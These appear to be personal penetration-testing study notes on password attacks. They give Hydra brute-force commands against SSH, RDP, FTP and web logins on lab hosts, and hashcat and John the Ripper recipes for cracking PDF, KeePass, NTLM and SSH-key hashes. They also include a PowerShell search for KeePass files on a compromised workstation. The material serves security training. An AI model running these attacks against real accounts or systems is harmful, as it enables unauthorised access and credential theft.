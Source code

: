 # Password Cracking

### Hydra

#### Simple SSH & RDP Examples

```bash
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

#### Cracking PDF

```bash
pdf2john Infrustructure.pdf > pdf.hash
john -wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
```

#### Hydra FTP Example (with known usernames)

```bash
hydra -I -V -f -L users.txt -u -P /opt/SecLists/Passwords/xato-net-10-million-passwords.txt 192.168.179.46 ftp
```

#### HTTP Examples

As before, we'll specify -l for the user, -P for the wordlist, the target IP without any protocol, and a new http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

When you run into Basic Authentication, use the following script as a reference:

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt -t 1 "http-get://192.168.249.201/:A=BASIC:F=401"
```

---

You can think of John the Ripper as more of a CPU intensive password cracking tool that supports GPUs, while HashCat is more of a GPU-centered cracking tool, with support for CPUs.

For most algorithms, a GPU is much faster than a CPU since modern GPUs contain thousands of cores, each of which can share part of the workload. However, some slow hashing algorithms (like bcrypt) work better on CPUs.

#### Calculating Cracking Time

The cracking time can be calculated by dividing the keyspace with the hash rate.

The keyspace consists of the character set to the power of the amount of characters or length of the original information (password). For example, if we use the lower-case Latin alphabet (26 characters), upper case alphabet (26 characters), and the numbers from 0 to 9 (10 characters), we have a character set of 62 possible variations for every character. If we are faced with a five-character password, we are facing 62 to the power of five possible passwords containing these five characters.

```bash
python3 -c "print(62**5)"
```

We'll use hashcat with -b to initiate benchmark mode. First, we'll benchmark a CPU by running it in a Kali VM without any GPUs attached. Following along on a local Kali system, the results may differ.

```bash
hashcat -b
```

For now, we are only interested in MD5, SHA1, and SHA-256. The values of the hash rates are in MH/s in which 1 MH/s equals 1,000,000 hashes per second.

Example:
```bash
Algorithm 	GPU 	CPU
MD5 	68,185.1 MH/s 	450.8 MH/s
SHA1 	21,528.2 MH/s 	298.3 MH/s
SHA256 	9,276.3 MH/s 	134.2 MH/s
```

```bash
kali@kali:~$ python3 -c "print(916132832 / 134200000)"
6.826623189269746

kali@kali:~$ python3 -c "print(916132832 / 9276300000)"
0.09876058687192092
```

---

### Mutating Passwords

Removing number sequences from a password list:

```bash
# More specifically this removes passwords that start with the letter 1, and does the modification in place, not leaving empty newlines

sed -i '/^1/d' demo.txt
```

If you want to view how the demo rules work:

```bash
kali@kali:~/passwordattacks$ hashcat -r demo.rule --stdout demo.txt
password1
iloveyou1
princess1
rockyou1
abc1231
```

This sets the crack mode to MD5, with the hash being in crackme.txt, and sets the demo rules on the rockyou.txt wordlsit, with the argument '--force' to use a CPU for the cracking.

```bash
kali@kali:~/passwordattacks$ cat crackme.txt     
f621b6c9eab51a3e2f4e167fee4c6860

kali@kali:~/passwordattacks$ cat demo3.rule   
$1 c $!
$2 c $!
$1 $2 $3 c $!

kali@kali:~/passwordattacks$ hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force
``` 

### Password Cracking Process

We can describe the process of cracking a hash with the following steps:

    1. Extract hashes
    2. Format hashes
    3. Calculate the cracking time
    4. Prepare wordlist
    5. Attack the hash

You can identify the hash type with *hash-identifier* or *hashid*, which are installed on Kali.

We must take special care in copying and pasting our hashes. An extra space or a newline could render our efforts worthless. In addition, we should be sure of the hash type we are using. For example, hashid can't automatically determine if b08ff247dc7c5658ff64c53e8b0db462 is MD2, MD4, or MD5. An incorrect choice will obviously waste time. We can avoid this situation by double-checking the results with other tools and doing additional research.

**If you manage to get access to a client's workstation, check if they are running a password manager. If they are, try to crack the master password.**

#### Recursively Search a User's Workstation for KeePass Database

```bash
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

The JtR suite includes various transformation scripts like ssh2john and keepass2john, which can format a broad range of different file formats, and they are installed by default on our Kali machine. We can also use these scripts to format hashes for Hashcat.

Let's use the keepass2john script to format the database file and save the output to keepass.hash.

```bash
kali@kali:~/passwordattacks$ ls -la Database.kdbx
-rwxr--r-- 1 kali kali 1982 May 30 06:36 Database.kdbx


kali@kali:~/passwordattacks$ keepass2john Database.kdbx > keepass.hash   

kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```

In our case, the JtR script prepended the filename Database to the hash. The script does this to act as the username for the target hash. This is helpful when cracking database hashes, since we want the output to contain the corresponding username and not only the password. Since KeePass uses a master password without any kind of username, we need to remove the "Database:" string with a text editor.


We're using the rule '/usr/share/hashcat/rules/rockyou-30000.rule' because it is very effective with the rockyou.txt wordlist, as it was made for it.

```bash
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
...
```

#### Using Rules with JTR

To be able to use the previously created rules in JtR, we need to add a name for the rules and append them to the /etc/john/john.conf configuration file. For this demonstration, we'll name the rule sshRules with a "List.Rules" rule naming syntax (as shown in Listing 34). We'll use sudo and sh -c to append the contents of our rule file into /etc/john/john.conf.

```bash
kali@kali:~/passwordattacks$ cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#

kali@kali:~/passwordattacks$ sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'
```

Now that we've successfully added our sshRules to the JtR configuration file, we can use john to crack the passphrase in the final step of our methodology. We'll define our wordlist with --wordlist=ssh.passwords, select the previously created rule with --rules=sshRules, and provide the hash of the private key as the final argument, ssh.hash.

```bash
kali@kali:~/passwordattacks$ john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

#### NTLM Hashes

```bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### With Additional Field in File & Show Output

```bash
# Rebecca:bf55e15b119860a6e6b5a164377da719
hashcat -m 0 --user sql.output /usr/share/wordlists/rockyou.txt --force
hashcat -m 0 --user sql.output --show
```

#### Automating Login User & Pass HTTP

Pay attention to whether you put http-post-form or https-post-form. Creds.txt is user:pass format.

```bash
hydra -C creds.txt streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
```